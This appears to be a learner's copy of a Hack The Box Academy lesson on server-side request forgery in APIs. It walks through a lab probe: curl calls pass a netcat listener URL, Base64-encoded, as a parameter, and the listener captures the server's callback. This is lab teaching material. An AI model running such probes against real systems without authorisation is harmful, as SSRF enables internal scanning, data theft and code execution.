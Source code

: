 ```yaml
---
sticker: emoji//1f480
---
```

Server-Side Request Forgery (SSRF) attacks, listed in the OWASP top 10, allow us to abuse server functionality to perform internal or external resource requests on behalf of the server. We usually need to supply or modify URLs used by the target application to read or submit data. Exploiting SSRF vulnerabilities can lead to:

- Interacting with known internal systems
- Discovering internal services via port scans
- Disclosing local/sensitive data
- Including files in the target application
- Leaking NetNTLM hashes using UNC Paths (Windows)
- Achieving remote code execution

We can usually find SSRF vulnerabilities in applications or APIs that fetch remote resources. Our [Server-side Attacks](https://academy.hackthebox.com/module/details/145) module covers SSRF in detail.

As we have mentioned multiple times, though, we should fuzz every identified parameter, even if it does not seem tasked with fetching remote resources.

Let us assess together an API that is vulnerable to SSRF.

Proceed to the end of this section and click on `Click here to spawn the target system!` or the `Reset Target` icon. Use the provided Pwnbox or a local VM with the supplied VPN key to reach the target API and follow along.

Suppose we are assessing such an API residing in `http://<TARGET IP>:3000/api/userinfo`.

Let us first interact with it.


```shell-session
smoothment@htb[/htb]$ curl http://<TARGET IP>:3000/api/userinfo
{"success":false,"error":"'id' parameter is not given."}
```

The API is expecting a parameter called _id_. Since we are interested in identifying SSRF vulnerabilities in this section, let us set up a Netcat listener first.

```shell-session
smoothment@htb[/htb]$ nc -nlvp 4444
listening on [any] 4444 ...
```

Then, let us specify `http://<VPN/TUN Adapter IP>:<LISTENER PORT>` as the value of the _id_ parameter and make an API call.


```shell-session
smoothment@htb[/htb]$ curl "http://<TARGET IP>:3000/api/userinfo?id=http://<VPN/TUN Adapter IP>:<LISTENER PORT>"
{"success":false,"error":"'id' parameter is invalid."}
```

We notice an error about the _id_ parameter being invalid, and we also notice no connection being made to our listener.

In many cases, APIs expect parameter values in a specific format/encoding. Let us try Base64-encoding `http://<VPN/TUN Adapter IP>:<LISTENER PORT>` and making an API call again.


```shell-session
smoothment@htb[/htb]$ echo "http://<VPN/TUN Adapter IP>:<LISTENER PORT>" | tr -d '\n' | base64
smoothment@htb[/htb]$ curl "http://<TARGET IP>:3000/api/userinfo?id=<BASE64 blob>"
```

When you make the API call, you will notice a connection being made to your Netcat listener. The API is vulnerable to SSRF.


```shell-session
smoothment@htb[/htb]$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [<VPN/TUN Adapter IP>] from (UNKNOWN) [<TARGET IP>] 50542
GET / HTTP/1.1
Accept: application/json, text/plain, */*
User-Agent: axios/0.24.0
Host: <VPN/TUN Adapter IP>:4444
Connection: close
```

# Question
---
![](gitbook/cybersecurity/images/Pasted%252520image%25252020250219172102.png)

